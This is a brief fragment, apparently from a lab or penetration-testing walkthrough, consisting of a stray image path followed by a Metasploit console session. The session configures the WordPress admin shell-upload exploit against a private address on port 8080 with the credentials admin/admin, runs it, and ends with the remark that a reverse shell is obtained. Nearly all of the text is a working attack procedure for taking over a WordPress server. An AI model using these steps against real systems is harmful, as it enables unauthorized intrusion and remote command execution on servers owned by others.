 ```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > setg RHOSTS 192.168.0.102
RHOSTS => 192.168.0.102
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RPORT 8080
RPORT => 8080
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD admin
PASSWORD => admin

run
```

now you get the reverse shell 


